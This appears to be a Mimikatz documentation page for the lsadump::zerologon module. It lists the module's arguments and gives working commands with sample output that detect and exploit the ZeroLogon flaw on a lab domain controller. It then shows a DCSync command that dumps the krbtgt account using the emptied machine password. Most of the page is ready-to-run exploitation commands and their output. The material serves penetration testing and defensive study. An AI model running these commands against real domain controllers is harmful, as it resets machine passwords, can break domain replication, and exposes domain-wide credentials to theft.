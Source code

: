 # zerologon

`lsadump::zerologon` detects and exploits the [ZeroLogon](https://www.thehacker.recipes/ad/movement/netlogon/zerologon) vulnerability. It has the following command line arguments:

* `/account`: the target DC SamAccountName
* `/target`: the target DC FQDN
* `/exploit`: proceed with exploitation
* `/null`: null session authentication
* `/ntlm`: use NTLM authentication
* `/type`: The Secure Channel Types. The available values are:
  * Null
  * MsvAp
  * Workstation
  * TrustedDnsDomain
  * TrustedDomainUasServer
  * Server
  * CdcServer

{% hint style="danger" %}
This technique can break the domain's replication services hence leading to massive disruption, running the following "password change" technique is **not advised**.
{% endhint %}

Detect if the target domain controller is vulnerable:

### Detection

```
mimikatz # lsadump::zerologon /target:dc.hacklab.local /account:dc$
[rpc] Remote   : dc.hacklab.local
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] AuthnSvc : NONE (0)
[rpc] NULL Sess: no

Target : dc.hacklab.local
Account: dc$
Type   : 6 (Server)
Mode   : detect

Trying to 'authenticate'...
=============================================================================================================================================================================================================================================

  NetrServerAuthenticate2: 0x00000000

* Authentication: OK -- vulnerable
```

### Exploitation

```
mimikatz # lsadump::zerologon /target:dc.hacklab.local /account:dc$ /exploit
[rpc] Remote   : dc.hacklab.local
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] AuthnSvc : NONE (0)
[rpc] NULL Sess: no

Target : dc.hacklab.local
Account: dc$
Type   : 6 (Server)
Mode   : exploit

Trying to 'authenticate'...
=============================================================================================================================================================================================================================================

  NetrServerAuthenticate2: 0x00000000
  NetrServerPasswordSet2: 0x00000000

* Authentication: OK -- vulnerable
* Set password  : OK -- may be unstable
```

A [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) can then be conducted with [`lsadump::dcsync`](dcsync.md).

```
mimikatz # lsadump::dcsync /domain:HACKLAB.LOCAL /dc:dc.hacklab.local /user:krbtgt /authuser:dc$ /authdomain:HACKLAB /authpassword:"" /authntlm
```
